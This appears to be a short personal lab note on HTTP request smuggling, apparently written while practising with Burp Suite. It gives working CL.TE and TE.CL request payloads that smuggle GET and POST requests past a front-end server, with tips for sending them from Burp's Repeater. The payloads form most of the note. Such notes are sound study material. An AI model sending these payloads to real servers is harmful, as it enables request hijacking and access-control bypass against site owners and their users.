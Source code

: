 ____

HTTP /1
Change request method 

We have to receive HTTP /1 200 OK 

Extension: HTTP Request Smuggler -> Launch all scans
# CL.TE

```
Content-Length: 0
Transfer-encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

Sent 2 times. The 2nd time 404

x= 
# TE.CL

Repeater --> uncheck Update Content-Length

```
Content-Length: 4
Transfer-encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

![[Pasted image 20240814132824.png]]

![[Pasted image 20240814132925.png]]






